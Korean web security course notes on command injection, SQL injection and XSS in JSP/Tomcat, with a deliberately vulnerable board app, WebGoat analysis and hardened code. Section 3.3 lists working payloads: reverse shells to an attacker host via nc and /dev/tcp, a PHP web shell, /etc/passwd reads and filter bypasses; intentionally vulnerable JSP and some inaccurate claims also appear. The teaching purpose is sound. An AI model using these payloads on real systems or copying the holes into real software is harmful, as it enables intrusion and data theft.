Tomcat 10은 `Runtime.getRuntime().exec(String command)` 방식으로 명령을 실행할 때, 문자열 전체를 하나의 프로그램 이름으로 인식한다. 즉, `"ping -c 5 192.168.1.1"` 전체를 실행 파일 이름으로 찾으려 한다.

**해결 방법:**

배열 형태로 명령어와 인자를 분리:

```java
// ❌ 작동하지 않음 (Tomcat 10)
String command = "ping -c 5 " + ip;
Process process = Runtime.getRuntime().exec(command);

// ✅ 올바른 방법
String[] command = {"/bin/ping", "-c", "5", ip};
Process process = Runtime.getRuntime().exec(command);

// 또는 ProcessBuilder 사용
ProcessBuilder pb = new ProcessBuilder("/bin/ping", "-c", "5", ip);
Process process = pb.start();
```

**그러나 여전히 위험!**

배열 방식을 사용하더라도 `ip` 변수에 특수문자가 포함되면 여전히 위험하다:

```bash
# ip 변수에 다음 값 입력
192.168.1.1 $(whoami)

# 실행되는 명령
/bin/ping -c 5 192.168.1.1 $(whoami)
```

### 2.2.4 Runtime.getRuntime().exec() 보안 분석

**exec() 메서드의 동작 방식:**

```java
// 방법 1: 문자열로 명령어 전달
Runtime.getRuntime().exec("ls -la /tmp");

// 방법 2: 배열로 명령어와 인자 분리
Runtime.getRuntime().exec(new String[]{"/bin/ls", "-la", "/tmp"});

// 방법 3: ProcessBuilder 사용 (권장)
ProcessBuilder pb = new ProcessBuilder("/bin/ls", "-la", "/tmp");
Process process = pb.start();
```

**보안 위험 분석:**

1. **Shell Metacharacter Injection**
   ```java
   String filename = "test.txt; rm -rf /";
   Runtime.getRuntime().exec("cat " + filename);
   // 결과: test.txt 출력 후 루트 디렉터리 삭제 시도
   ```

2. **Command Substitution**
   ```java
   String ip = "127.0.0.1 && $(whoami)";
   Runtime.getRuntime().exec("ping -c 1 " + ip);
   // 결과: whoami 명령 실행됨
   ```

3. **Pipe를 이용한 명령어 연결**
   ```java
   String input = "127.0.0.1 | nc attacker.com 4444";
   Runtime.getRuntime().exec("ping -c 1 " + input);
   ```

**안전한 코드 작성 방법:**

```java
<%
    String ip = request.getParameter("ip");

    // 1단계: 입력값 검증
    if (ip == null || ip.isEmpty()) {
        out.println("IP 주소를 입력하세요.");
        return;
    }

    // 2단계: 화이트리스트 방식 검증 (IP 주소 형식만 허용)
    if (!ip.matches("^([0-9]{1,3}\\.){3}[0-9]{1,3}$")) {
        out.println("유효하지 않은 IP 주소 형식입니다.");
        return;
    }

    // 3단계: IP 주소 범위 검증 (0-255)
    String[] octets = ip.split("\\.");
    for (String octet : octets) {
        int value = Integer.parseInt(octet);
        if (value < 0 || value > 255) {
            out.println("IP 주소 범위가 잘못되었습니다.");
            return;
        }
    }

    // 4단계: 배열 방식으로 명령어 실행 (Shell 우회)
    try {
        String[] command = {"/bin/ping", "-c", "5", ip};
        ProcessBuilder pb = new ProcessBuilder(command);

        // 5단계: 환경 변수 제한
        pb.environment().clear();

        Process process = pb.start();

        BufferedReader reader = new BufferedReader(
            new InputStreamReader(process.getInputStream())
        );

        out.println("<h3>Ping Results:</h3>");
        out.println("<pre>");

        String line;
        while ((line = reader.readLine()) != null) {
            // 6단계: 출력 인코딩 (XSS 방어)
            out.println(line.replace("<", "&lt;").replace(">", "&gt;"));
        }

        out.println("</pre>");
        reader.close();

    } catch (Exception e) {
        // 7단계: 에러 메시지에 민감 정보 포함하지 않기
        out.println("명령 실행 중 오류가 발생했습니다.");
        // 로그에만 상세 정보 기록
        System.err.println("Error: " + e.getMessage());
    }
%>
```

## 2.3 소스 코드 취약점 탐지

### 2.3.1 grep을 이용한 위험 함수 검색

소스 코드에서 취약점을 찾을 때 특정 위험 함수들을 검색하는 것이 효과적이다.

**Runtime.exec() 검색:**

```bash
# 현재 디렉터리에서 재귀적으로 검색
grep -r "Runtime.getRuntime().exec" /path/to/source/

# Java 파일만 검색
grep -r --include="*.java" "Runtime.getRuntime().exec" ./

# 대소문자 구분 없이 검색
grep -ri "runtime" ./

# 라인 번호 포함하여 검색
grep -rn "exec(" ./ | grep Runtime

# exec 함수 호출 찾기 (다양한 패턴)
grep -rE "(Runtime|Process|exec)" ./ --include="*.java"
```

**SQL 쿼리 검색:**

```bash
# SELECT 구문 찾기
grep -r "SELECT" ./ --include="*.java"
grep -r "select" ./ --include="*.java"

# executeQuery 함수 찾기
grep -r "executeQuery" ./ --include="*.java"

# String concatenation으로 쿼리 구성하는 부분 찾기
grep -r "SELECT.*+.*" ./ --include="*.java"

# Prepared Statement 사용 여부 확인
grep -r "PreparedStatement" ./ --include="*.java"
```

**위험한 함수 목록:**

```bash
# Command Injection 관련
grep -rE "(Runtime|exec|ProcessBuilder|system|popen)" ./

# SQL Injection 관련
grep -rE "(executeQuery|executeUpdate|SELECT|INSERT|UPDATE|DELETE)" ./

# File 관련
grep -rE "(FileInputStream|FileOutputStream|getParameter.*file)" ./

# XSS 관련
grep -rE "(out.println|out.write|response.getWriter)" ./
```

### 2.3.2 WebGoat 소스 코드 분석 실습

강의에서 WebGoat의 SQL Injection 레슨 소스 코드를 분석했다.

**GitHub에서 소스 코드 확인:**

```bash
# WebGoat Lessons 저장소
https://github.com/WebGoat/WebGoat-Lessons

# LoginSQLInjection.java 파일 경로
WebGoat-Lessons/sql-injection/src/main/java/org/owasp/webgoat/plugin/
    └── LoginSQLInjection.java
```

**취약한 코드 부분 (로그인 SQL Injection):**

소스 코드의 핵심 취약 부분을 보면:

```java
String userId = s.getParser().getRawParameter("username");
String password = s.getParser().getRawParameter("password");

// ⚠️ 취약점: 사용자 입력을 직접 SQL 쿼리에 포함
String query = "SELECT * FROM user_data WHERE userid = '"
             + userId + "' AND password = '" + password + "'";

try {
    Statement statement = connection.createStatement();
    // ⚠️ 취약점: 검증 없이 쿼리 실행
    ResultSet results = statement.executeQuery(query);

    if (results.first()) {
        // 로그인 성공
        authenticated = true;
        s.setSessionAttribute(getLessonName() + ".isAuthenticated", "true");
        s.setSessionAttribute(getLessonName() + ".userId", userId);
    }
} catch (SQLException e) {
    // 에러 처리
}
```

**문제점 분석:**

1. **입력값 검증 미흡**
   - `getRawParameter()`로 원시 파라미터를 직접 가져옴
   - 특수문자 필터링 없음
   - SQL 메타문자(`'`, `--`, `/*` 등) 차단 없음

2. **문자열 연결로 쿼리 구성**
   - `+` 연산자로 SQL 쿼리 직접 결합
   - Prepared Statement 미사용

3. **에러 메시지 노출**
   - SQL 에러가 사용자에게 그대로 노출될 가능성

**공격 시나리오:**

```
username: admin' --
password: (아무 값)

실행되는 쿼리:
SELECT * FROM user_data WHERE userid = 'admin' --' AND password = ''

결과: 패스워드 검증 우회 (-- 이후는 주석 처리됨)
```

### 2.3.3 소스 코드 보안 점검 체크리스트

**입력 데이터 검증:**
- [ ] 모든 사용자 입력에 대해 화이트리스트 방식 검증 수행
- [ ] 특수문자(`'`, `"`, `;`, `&`, `|` 등) 필터링 또는 이스케이프
- [ ] 입력 길이 제한 설정
- [ ] 데이터 타입 검증 (숫자, 이메일, IP 주소 등)

**SQL 쿼리 보안:**
- [ ] Prepared Statement 또는 Parameterized Query 사용
- [ ] ORM (Hibernate, JPA) 사용 시 createQuery 대신 Criteria API 활용
- [ ] 동적 쿼리 생성 최소화
- [ ] 데이터베이스 사용자 권한 최소화 (Principle of Least Privilege)

**시스템 명령어 실행:**
- [ ] Runtime.exec(), system() 등 위험 함수 사용 최소화
- [ ] 불가피한 경우 화이트리스트 기반 명령어만 허용
- [ ] 명령어와 인자를 배열로 분리하여 전달
- [ ] 절대경로 사용 (예: `/bin/ping` 대신 `ping` 금지)

**에러 처리:**
- [ ] 상세한 에러 메시지를 사용자에게 노출하지 않음
- [ ] 에러 로그는 서버에만 기록
- [ ] 스택 트레이스 출력 금지

## 2.4 실습 과제

### 2.4.1 SQL Injection 실습

**과제 1: UNION Injection 실습**

WebGoat의 SQL Injection 레슨에서 다음을 수행하라:

1. 로그인 폼에서 컬럼 개수 파악
2. UNION SELECT를 이용하여 다른 테이블 데이터 조회
3. 관리자 계정 정보 탈취

**과제 2: 안전한 로그인 코드 작성**

다음 요구사항을 만족하는 안전한 로그인 JSP를 작성하라:

- Prepared Statement 사용
- 입력값 검증 (특수문자 필터링)
- 에러 메시지 최소화
- 세션 관리 구현

### 2.4.2 Command Injection 실습

**과제 3: ping.jsp 보안 강화**

취약한 ping.jsp를 다음과 같이 개선하라:

1. IP 주소 형식 검증 (정규표현식 사용)
2. 화이트리스트 방식 입력값 제한
3. 배열 방식으로 명령어 실행
4. 출력 결과 인코딩 (XSS 방어)

**과제 4: 취약점 발견 연습**

다음 코드에서 취약점을 찾고 개선 방안을 제시하라:

```jsp
<%
String filename = request.getParameter("file");
String command = "cat /var/log/" + filename;
Process p = Runtime.getRuntime().exec(command);
// ... 출력 처리
%>
```

---

**다음 섹션 예고:**

Section 3에서는 Command Injection을 심화하여 다양한 우회 기법과 실제 공격 시나리오를 학습한다. 또한 WebGoat에서의 실습과 익명 게시판 구현을 통해 실무 능력을 향상시킬 예정이다.# Section 3: 익명 게시판 구현 및 Command Injection 심화

## 3.1 익명 게시판 구현 프로젝트

### 3.1.1 프로젝트 개요

XSS 공격을 학습하기 위해 의도적으로 취약한 익명 게시판을 구현한다. 이 게시판은 글쓰기, 목록 보기, 글 읽기의 3가지 기본 기능을 제공하며, 사용자 입력에 대한 필터링이 없어 XSS 공격에 취약하다.

**기능 요구사항:**
- 글쓰기: 이름, 제목, 내용 입력
- 목록 보기: 모든 게시글의 제목과 작성자 표시
- 글 읽기: 특정 게시글의 상세 내용 표시
- 데이터베이스: MariaDB의 clouddb 사용

**보안 취약점 (의도적):**
- 입력값 필터링 없음 (XSS 가능)
- SQL 문자열 직접 결합 (SQL Injection 가능)
- 출력 인코딩 미적용

### 3.1.2 데이터베이스 테이블 설계

```sql
USE clouddb;

-- 게시판 테이블 생성
CREATE TABLE IF NOT EXISTS board (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(100),
    title VARCHAR(255),
    content TEXT,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
);

-- 테스트 데이터 삽입
INSERT INTO board (name, title, content) VALUES
('관리자', '게시판 오픈', '익명 게시판이 오픈되었습니다.'),
('사용자1', '테스트 글', '테스트 내용입니다.'),
('익명', '공지사항', '자유롭게 글을 작성하세요.');

-- 테이블 확인
DESC board;
SELECT * FROM board;
```

**테이블 구조 설명:**

| 컬럼명 | 데이터 타입 | 설명 | 제약조건 |
|--------|------------|------|---------|
| id | INT | 게시글 고유번호 | PRIMARY KEY, AUTO_INCREMENT |
| name | VARCHAR(100) | 작성자 이름 | NULL 허용 |
| title | VARCHAR(255) | 게시글 제목 | NULL 허용 |
| content | TEXT | 게시글 내용 | NULL 허용 |
| created_at | TIMESTAMP | 작성 시간 | DEFAULT CURRENT_TIMESTAMP |

### 3.1.3 데이터베이스 연결 설정 (config.jsp)

모든 JSP 파일에서 공통으로 사용할 데이터베이스 연결 설정 파일을 작성한다.

**config.jsp:**

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" %>
<%@ page import="java.sql.*" %>

<%!
    // 데이터베이스 연결 정보
    static final String JDBC_DRIVER = "org.mariadb.jdbc.Driver";
    static final String DB_URL = "jdbc:mariadb://192.168.186.130:3306/clouddb";
    static final String DB_USER = "mydb";
    static final String DB_PASS = "abcd1234";
%>
```

**주의사항:**
- IP 주소 `192.168.186.130`은 각자의 MariaDB 서버 IP로 변경
- JDBC 드라이버 jar 파일이 Tomcat의 `lib` 디렉터리에 있어야 함
- 실제 운영 환경에서는 설정 파일에 패스워드를 하드코딩하지 말 것

**JDBC 드라이버 설치:**

```bash
# MariaDB JDBC 드라이버 다운로드
cd /opt/tomcat/lib/
wget https://repo1.maven.org/maven2/org/mariadb/jdbc/mariadb-java-client/3.0.8/mariadb-java-client-3.0.8.jar

# 권한 설정
chmod 644 mariadb-java-client-3.0.8.jar

# Tomcat 재시작
systemctl restart tomcat9
```

### 3.1.4 메인 페이지 (index.jsp)

게시글 목록을 표시하는 메인 페이지를 작성한다.

**index.jsp:**

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ page import="java.sql.*" %>
<%@ include file="config.jsp" %>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>익명 게시판</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 20px;
            background-color: #f5f5f5;
        }
        .container {
            max-width: 800px;
            margin: 0 auto;
            background: white;
            padding: 20px;
            border-radius: 5px;
            box-shadow: 0 2px 5px rgba(0,0,0,0.1);
        }
        h1 {
            color: #333;
            border-bottom: 2px solid #007bff;
            padding-bottom: 10px;
        }
        .write-btn {
            background-color: #007bff;
            color: white;
            padding: 10px 20px;
            text-decoration: none;
            border-radius: 5px;
            display: inline-block;
            margin-bottom: 20px;
        }
        .write-btn:hover {
            background-color: #0056b3;
        }
        table {
            width: 100%;
            border-collapse: collapse;
        }
        th, td {
            padding: 12px;
            text-align: left;
            border-bottom: 1px solid #ddd;
        }
        th {
            background-color: #007bff;
            color: white;
        }
        tr:hover {
            background-color: #f1f1f1;
        }
        a {
            color: #007bff;
            text-decoration: none;
        }
        a:hover {
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>📋 익명 게시판</h1>
        <a href="write.jsp" class="write-btn">✍️ 글쓰기</a>

        <table>
            <thead>
                <tr>
                    <th style="width: 10%">번호</th>
                    <th style="width: 50%">제목</th>
                    <th style="width: 20%">작성자</th>
                    <th style="width: 20%">작성일</th>
                </tr>
            </thead>
            <tbody>
<%
    Connection conn = null;
    Statement stmt = null;
    ResultSet rs = null;

    try {
        // 1. JDBC 드라이버 로드
        Class.forName(JDBC_DRIVER);

        // 2. 데이터베이스 연결
        conn = DriverManager.getConnection(DB_URL, DB_USER, DB_PASS);

        // 3. SQL 쿼리 작성 (최신 글이 위로 오도록 정렬)
        String sql = "SELECT * FROM board ORDER BY id DESC";

        // 4. Statement 생성 및 쿼리 실행
        stmt = conn.createStatement();
        rs = stmt.executeQuery(sql);

        // 5. 결과 출력
        if (!rs.isBeforeFirst()) {
            // 게시글이 없는 경우
            out.println("<tr><td colspan='4' style='text-align:center;'>게시글이 없습니다.</td></tr>");
        } else {
            // 게시글이 있는 경우
            while (rs.next()) {
                int id = rs.getInt("id");
                String title = rs.getString("title");
                String name = rs.getString("name");
                Timestamp createdAt = rs.getTimestamp("created_at");

                out.println("<tr>");
                out.println("  <td>" + id + "</td>");
                // ⚠️ 취약점: XSS 방어를 위한 인코딩 없음
                out.println("  <td><a href='read.jsp?id=" + id + "'>" + title + "</a></td>");
                out.println("  <td>" + name + "</td>");
                out.println("  <td>" + createdAt + "</td>");
                out.println("</tr>");
            }
        }

    } catch (ClassNotFoundException e) {
        out.println("<tr><td colspan='4' style='color:red;'>JDBC 드라이버를 찾을 수 없습니다: " + e.getMessage() + "</td></tr>");
    } catch (SQLException e) {
        out.println("<tr><td colspan='4' style='color:red;'>데이터베이스 오류: " + e.getMessage() + "</td></tr>");
    } finally {
        // 6. 리소스 정리 (중요!)
        try {
            if (rs != null) rs.close();
            if (stmt != null) stmt.close();
            if (conn != null) conn.close();
        } catch (SQLException e) {
            e.printStackTrace();
        }
    }
%>
            </tbody>
        </table>
    </div>
</body>
</html>
```

**코드 설명:**

1. **JDBC 연결 과정:**
   - `Class.forName()`: JDBC 드라이버 로드
   - `DriverManager.getConnection()`: DB 연결
   - `Statement` 생성 및 쿼리 실행
   - `ResultSet`으로 결과 처리

2. **취약점:**
   - `title`과 `name`을 그대로 출력 → XSS 가능
   - SQL 쿼리를 문자열로 직접 작성 (현재는 파라미터가 없지만 확장 시 위험)

3. **리소스 정리:**
   - `finally` 블록에서 반드시 Connection, Statement, ResultSet 닫기
   - 자원 누수 방지 (메모리 leak, DB connection pool 고갈)

### 3.1.5 글쓰기 페이지 (write.jsp)

사용자가 게시글을 작성하는 폼을 제공한다.

**write.jsp:**

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>글쓰기</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 20px;
            background-color: #f5f5f5;
        }
        .container {
            max-width: 800px;
            margin: 0 auto;
            background: white;
            padding: 20px;
            border-radius: 5px;
            box-shadow: 0 2px 5px rgba(0,0,0,0.1);
        }
        h1 {
            color: #333;
            border-bottom: 2px solid #007bff;
            padding-bottom: 10px;
        }
        .form-group {
            margin-bottom: 15px;
        }
        label {
            display: block;
            margin-bottom: 5px;
            font-weight: bold;
            color: #555;
        }
        input[type="text"], textarea {
            width: 100%;
            padding: 10px;
            border: 1px solid #ddd;
            border-radius: 4px;
            box-sizing: border-box;
            font-size: 14px;
        }
        textarea {
            resize: vertical;
            min-height: 200px;
        }
        .btn-group {
            margin-top: 20px;
            text-align: right;
        }
        button {
            padding: 10px 20px;
            margin-left: 10px;
            border: none;
            border-radius: 5px;
            cursor: pointer;
            font-size: 14px;
        }
        .btn-submit {
            background-color: #28a745;
            color: white;
        }
        .btn-submit:hover {
            background-color: #218838;
        }
        .btn-cancel {
            background-color: #6c757d;
            color: white;
        }
        .btn-cancel:hover {
            background-color: #5a6268;
        }
    </style>
</head>
<body>
    <div class="container">
        <h1>✍️ 글쓰기</h1>

        <form action="save.jsp" method="POST">
            <div class="form-group">
                <label for="name">작성자</label>
                <input type="text" id="name" name="name" placeholder="이름을 입력하세요" required>
            </div>

            <div class="form-group">
                <label for="title">제목</label>
                <input type="text" id="title" name="title" placeholder="제목을 입력하세요" required>
            </div>

            <div class="form-group">
                <label for="content">내용</label>
                <textarea id="content" name="content" placeholder="내용을 입력하세요" required></textarea>
            </div>

            <div class="btn-group">
                <button type="button" class="btn-cancel" onclick="location.href='index.jsp'">취소</button>
                <button type="submit" class="btn-submit">작성완료</button>
            </div>
        </form>
    </div>
</body>
</html>
```

### 3.1.6 저장 처리 페이지 (save.jsp)

폼에서 전송된 데이터를 데이터베이스에 저장한다.

**save.jsp:**

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ page import="java.sql.*" %>
<%@ include file="config.jsp" %>

<%
    // POST 파라미터 인코딩 설정
    request.setCharacterEncoding("UTF-8");

    // 파라미터 받기
    String name = request.getParameter("name");
    String title = request.getParameter("title");
    String content = request.getParameter("content");

    Connection conn = null;
    PreparedStatement pstmt = null;

    try {
        // JDBC 드라이버 로드
        Class.forName(JDBC_DRIVER);

        // 데이터베이스 연결
        conn = DriverManager.getConnection(DB_URL, DB_USER, DB_PASS);

        // ✅ 보안: Prepared Statement 사용
        String sql = "INSERT INTO board (name, title, content) VALUES (?, ?, ?)";
        pstmt = conn.prepareStatement(sql);

        // 파라미터 설정
        pstmt.setString(1, name);
        pstmt.setString(2, title);
        pstmt.setString(3, content);

        // 쿼리 실행
        int result = pstmt.executeUpdate();

        if (result > 0) {
            // 저장 성공 → 목록 페이지로 리다이렉트
            response.sendRedirect("index.jsp");
        } else {
            out.println("<script>alert('글 작성에 실패했습니다.'); history.back();</script>");
        }

    } catch (Exception e) {
        out.println("<script>alert('오류가 발생했습니다: " + e.getMessage() + "'); history.back();</script>");
        e.printStackTrace();
    } finally {
        // 리소스 정리
        try {
            if (pstmt != null) pstmt.close();
            if (conn != null) conn.close();
        } catch (SQLException e) {
            e.printStackTrace();
        }
    }
%>
```

**코드 개선 사항:**

1. **Prepared Statement 사용:**
   - SQL Injection 방어
   - `?` 플레이스홀더로 파라미터 바인딩
   - `pstmt.setString(인덱스, 값)` 메서드 사용

2. **리다이렉트:**
   - `response.sendRedirect()`: 저장 후 목록 페이지로 이동
   - POST-Redirect-GET 패턴 적용 (새로고침 시 중복 저장 방지)

3. **인코딩 설정:**
   - `request.setCharacterEncoding("UTF-8")`: 한글 깨짐 방지

### 3.1.7 글 읽기 페이지 (read.jsp)

특정 게시글의 상세 내용을 표시한다.

**read.jsp:**

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
<%@ page import="java.sql.*" %>
<%@ include file="config.jsp" %>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>게시글 보기</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 20px;
            background-color: #f5f5f5;
        }
        .container {
            max-width: 800px;
            margin: 0 auto;
            background: white;
            padding: 20px;
            border-radius: 5px;
            box-shadow: 0 2px 5px rgba(0,0,0,0.1);
        }
        h1 {
            color: #333;
            border-bottom: 2px solid #007bff;
            padding-bottom: 10px;
        }
        .post-info {
            background-color: #f8f9fa;
            padding: 15px;
            border-radius: 5px;
            margin-bottom: 20px;
        }
        .post-info table {
            width: 100%;
        }
        .post-info th {
            width: 100px;
            text-align: left;
            color: #555;
            font-weight: bold;
        }
        .post-content {
            padding: 20px;
            min-height: 300px;
            border: 1px solid #ddd;
            border-radius: 5px;
            line-height: 1.6;
            background-color: #fafafa;
        }
        .btn-list {
            background-color: #007bff;
            color: white;
            padding: 10px 20px;
            text-decoration: none;
            border-radius: 5px;
            display: inline-block;
            margin-top: 20px;
        }
        .btn-list:hover {
            background-color: #0056b3;
        }
    </style>
</head>
<body>
    <div class="container">
<%
    String idParam = request.getParameter("id");

    // ID 파라미터 검증
    if (idParam == null || idParam.isEmpty()) {
        out.println("<h1>잘못된 접근입니다.</h1>");
        out.println("<a href='index.jsp' class='btn-list'>목록으로</a>");
        return;
    }

    Connection conn = null;
    PreparedStatement pstmt = null;
    ResultSet rs = null;

    try {
        int id = Integer.parseInt(idParam);

        // JDBC 드라이버 로드
        Class.forName(JDBC_DRIVER);

        // 데이터베이스 연결
        conn = DriverManager.getConnection(DB_URL, DB_USER, DB_PASS);

        // ✅ 보안: Prepared Statement 사용
        String sql = "SELECT * FROM board WHERE id = ?";
        pstmt = conn.prepareStatement(sql);
        pstmt.setInt(1, id);

        rs = pstmt.executeQuery();

        if (rs.next()) {
            String title = rs.getString("title");
            String name = rs.getString("name");
            String content = rs.getString("content");
            Timestamp createdAt = rs.getTimestamp("created_at");
%>
        <h1>📄 게시글 보기</h1>

        <div class="post-info">
            <table>
                <tr>
                    <th>제목:</th>
                    <!-- ⚠️ 취약점: XSS 가능 -->
                    <td><%= title %></td>
                </tr>
                <tr>
                    <th>작성자:</th>
                    <td><%= name %></td>
                </tr>
                <tr>
                    <th>작성일:</th>
                    <td><%= createdAt %></td>
                </tr>
            </table>
        </div>

        <div class="post-content">
            <!-- ⚠️ 취약점: XSS 가능 (가장 위험!) -->
            <%= content %>
        </div>

        <a href="index.jsp" class="btn-list">📋 목록으로</a>
<%
        } else {
            out.println("<h1>게시글을 찾을 수 없습니다.</h1>");
            out.println("<a href='index.jsp' class='btn-list'>목록으로</a>");
        }

    } catch (NumberFormatException e) {
        out.println("<h1>잘못된 게시글 번호입니다.</h1>");
        out.println("<a href='index.jsp' class='btn-list'>목록으로</a>");
    } catch (Exception e) {
        out.println("<h1>오류가 발생했습니다.</h1>");
        out.println("<p>" + e.getMessage() + "</p>");
        out.println("<a href='index.jsp' class='btn-list'>목록으로</a>");
        e.printStackTrace();
    } finally {
        // 리소스 정리
        try {
            if (rs != null) rs.close();
            if (pstmt != null) pstmt.close();
            if (conn != null) conn.close();
        } catch (SQLException e) {
            e.printStackTrace();
        }
    }
%>
    </div>
</body>
</html>
```

**보안 취약점 분석:**

1. **XSS 취약점 (의도적):**
   ```jsp
   <%= title %>    // HTML 인코딩 없음
   <%= content %>  // HTML 인코딩 없음
   ```

   공격자가 `<script>alert('XSS')</script>` 를 content에 입력하면 그대로 실행됨

2. **안전한 출력 방식 (참고용):**
   ```jsp
   <%@ page import="org.apache.commons.text.StringEscapeUtils" %>
   <%= StringEscapeUtils.escapeHtml4(title) %>
   <%= StringEscapeUtils.escapeHtml4(content) %>
   ```

### 3.1.8 전체 파일 구조

```
/opt/tomcat/webapps/ROOT/
├── config.jsp        # 데이터베이스 연결 설정
├── index.jsp         # 게시글 목록
├── write.jsp         # 글쓰기 폼
├── save.jsp          # 저장 처리
└── read.jsp          # 게시글 상세보기
```

**파일 생성 방법:**

```bash
# Tomcat ROOT 디렉터리로 이동
cd /opt/tomcat/webapps/ROOT/

# 각 파일 생성
vi config.jsp
vi index.jsp
vi write.jsp
vi save.jsp
vi read.jsp

# 권한 설정
chmod 644 *.jsp

# Tomcat 재시작
systemctl restart tomcat9
```

**접속 URL:**

```
http://192.168.186.128:8080/index.jsp
```

## 3.2 게시판 기능 테스트

### 3.2.1 정상 동작 테스트

**테스트 시나리오 1: 글 작성 및 조회**

1. `http://서버IP:8080/index.jsp` 접속
2. "글쓰기" 버튼 클릭
3. 다음 내용 입력:
   - 작성자: `테스터`
   - 제목: `게시판 테스트`
   - 내용: `정상적으로 동작하는지 확인합니다.`
4. "작성완료" 버튼 클릭
5. 목록에서 새 글 확인
6. 제목 클릭하여 상세 페이지 확인

**예상 결과:**
- 글이 정상적으로 저장되고 목록에 표시됨
- 상세 페이지에서 내용이 올바르게 표시됨

### 3.2.2 XSS 취약점 테스트 (Section 4에서 상세 다룸)

**간단한 XSS 테스트:**

글쓰기 페이지에서 다음을 입력:
- 제목: `XSS 테스트`
- 내용: `<script>alert('XSS 공격!');</script>`

저장 후 게시글을 클릭하면 alert 창이 실행됨 → XSS 취약점 확인

## 3.3 Command Injection 심화

### 3.3.1 다양한 Command Injection 기법

**1. 세미콜론(;) 을 이용한 명령어 연결:**

```bash
192.168.1.1; whoami
192.168.1.1; cat /etc/passwd
192.168.1.1; ls -la /var/www
```

**2. 파이프(|)를 이용한 명령어 체이닝:**

```bash
192.168.1.1 | whoami
echo test | ls -la
```

**3. AND(&&) 연산자:**

```bash
192.168.1.1 && whoami
true && cat /etc/passwd
```

**4. OR(||) 연산자:**

```bash
false || whoami
invalidcommand || cat /etc/passwd
```

**5. 명령어 치환 (Command Substitution):**

```bash
192.168.1.1 $(whoami)
192.168.1.1 `whoami`
echo $(cat /etc/passwd)
```

**6. 리다이렉션 (Redirection):**

```bash
192.168.1.1 > /tmp/output.txt
cat /etc/passwd > /var/www/html/passwd.txt
```

**7. 백그라운드 실행 (&):**

```bash
192.168.1.1 & nc -e /bin/bash attacker.com 4444 &
```

### 3.3.2 우회 기법 (Bypass Techniques)

**공백 필터링 우회:**

```bash
# 공백 대신 탭 사용
192.168.1.1;ls\t-la

# 공백 대신 $IFS 사용
192.168.1.1;cat$IFS/etc/passwd

# 브레이스 확장 사용
192.168.1.1;{ls,-la}
```

**키워드 필터링 우회:**

```bash
# "cat" 필터링 우회
c''at /etc/passwd
c\at /etc/passwd
ca\t /etc/passwd
`echo Y2F0 | base64 -d` /etc/passwd  # base64("cat")

# "rm" 필터링 우회
r""m -rf /tmp/*
\rm -rf /tmp/*
```

**경로 필터링 우회:**

```bash
# 절대경로 대신 상대경로
../../../etc/passwd

# 환경변수 사용
$HOME/.bash_history
$PATH
```

### 3.3.3 실전 Command Injection 공격 시나리오

**시나리오 1: 리버스 쉘 (Reverse Shell)**

공격자 서버에서 대기:
```bash
nc -lvnp 4444
```

취약한 웹 애플리케이션에 입력:
```bash
192.168.1.1; bash -i >& /dev/tcp/공격자IP/4444 0>&1
```

**시나리오 2: 웹셸 업로드**

```bash
192.168.1.1; echo '<?php system($_GET["cmd"]); ?>' > /var/www/html/shell.php
```

접속:
```
http://서버IP/shell.php?cmd=whoami
```

**시나리오 3: 민감 파일 복사**

```bash
192.168.1.1; cp /etc/passwd /var/www/html/passwd.txt
```

접속하여 다운로드:
```
http://서버IP/passwd.txt
```

## 3.4 방어 기법

### 3.4.1 입력값 화이트리스트 검증

**안전한 ping.jsp (개선 버전):**

```jsp
<%
    String ip = request.getParameter("ip");

    // 1. NULL 체크
    if (ip == null || ip.isEmpty()) {
        out.println("IP 주소를 입력하세요.");
        return;
    }

    // 2. 정규표현식으로 IP 주소 형식 검증
    String ipPattern = "^([0-9]{1,3}\\.){3}[0-9]{1,3}$";
    if (!ip.matches(ipPattern)) {
        out.println("유효하지 않은 IP 주소 형식입니다.");
        return;
    }

    // 3. 각 옥텟(octet) 범위 검증 (0-255)
    String[] octets = ip.split("\\.");
    for (String octet : octets) {
        int value = Integer.parseInt(octet);
        if (value < 0 || value > 255) {
            out.println("IP 주소 범위가 잘못되었습니다. (0-255)");
            return;
        }
    }

    // 4. 배열 방식으로 명령어 실행 (Shell 우회 방지)
    try {
        ProcessBuilder pb = new ProcessBuilder("/bin/ping", "-c", "5", ip);

        // 5. 환경 변수 제한
        pb.environment().clear();

        // 6. 작업 디렉터리 설정
        pb.directory(new java.io.File("/tmp"));

        Process process = pb.start();

        BufferedReader reader = new BufferedReader(
            new InputStreamReader(process.getInputStream())
        );

        out.println("<h3>Ping Results:</h3>");
        out.println("<pre>");

        String line;
        while ((line = reader.readLine()) != null) {
            // 7. 출력 인코딩 (XSS 방어)
            String encoded = line.replace("<", "&lt;")
                                  .replace(">", "&gt;")
                                  .replace("&", "&amp;");
            out.println(encoded);
        }

        out.println("</pre>");
        reader.close();

    } catch (Exception e) {
        // 8. 에러 메시지 최소화
        out.println("명령 실행 중 오류가 발생했습니다.");
        System.err.println("Error: " + e.getMessage());
    }
%>
```

### 3.4.2 블랙리스트 vs 화이트리스트

**블랙리스트 방식 (비권장):**

```java
// ❌ 위험: 모든 경우를 차단할 수 없음
String[] blacklist = {";", "|", "&", "$", "`", "(", ")", "{", "}"};
for (String bad : blacklist) {
    if (ip.contains(bad)) {
        out.println("허용되지 않은 문자가 포함되어 있습니다.");
        return;
    }
}
```

**문제점:**
- 우회 가능: `\n`, `%0a` (newline)
- 인코딩 우회: URL 인코딩, 유니코드
- 새로운 공격 기법에 대응 불가

**화이트리스트 방식 (권장):**

```java
